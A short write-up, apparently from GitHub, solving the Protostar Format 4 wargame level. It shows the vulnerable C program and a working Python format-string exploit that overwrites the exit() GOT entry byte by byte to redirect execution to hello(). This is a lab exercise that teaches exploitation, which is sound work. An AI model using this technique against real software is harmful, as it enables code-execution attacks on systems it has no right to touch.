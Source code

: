 # A-short-solution-to-Protostar-level-Format-4(Buffer Overflow)
## the c-code
Here's the source code 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
As you can see the main function calls vuln() which calls fgets to take input in the buffer and the print it via printf() and *then calls the exit function*
Our aim is to redirect the code execution to hello(). This is an easy problem so I will only *very* briefly explain the basic idea behind the soution. 

Since there is a exit call, there is no use of overwriting the return address pointer on the stack.

To redirect the code execution, we simply go to procedure linkage table of the program which will lead us to the exit address on the Global offset table.
Now we exploit the format string vuln to overwrite it. 
Now the usual solutions you will see on internet(like the one on the live overflow website) involve overwriting it in two parts using format specifier %n and some little neat tricks with their modifiers.
But half the hexadecimal address is still a very large number in decimal. We have to print thousands of blank spaces to achieve that overwrite.

What we can do instead is write the address partially in four passes writing 1 byte in each passes. We can significantly reduce the number of printed characters from tens of thousands to a few hundred. 
There will be over flow in each write but that will get overwritten in the next pass and in the 4th pass the overflow will be to the next memory adress (with reference to the script it'll be at EXIT4) but since we care only about 4 bytes it'll work

Note that the code will only run on protostarOS for obvious reasons.

## Here's the actual python code to do so
```
import struct
HELLO = 0x080484b4
EXIT = 0x08049724
EXIT1 = 0x8049725
EXIT2 = 0x8049726
EXIT3 = 0x8049727
EXIT4 = 0x8049728
def pad(s):
   return s+"X"*(512-len(s))

exploit = ""
exploit+= "AAAA"
exploit+= struct.pack("I",EXIT)
exploit+= struct.pack("I",EXIT1)
exploit+= struct.pack("I",EXIT2)
exploit+= struct.pack("I",EXIT3)
exploit+= struct.pack("I",EXIT4)

exploit+= "i%4$155x%5$n%208x%6$n%128x%7$n%260x%8$n"

print pad(exploit)
```
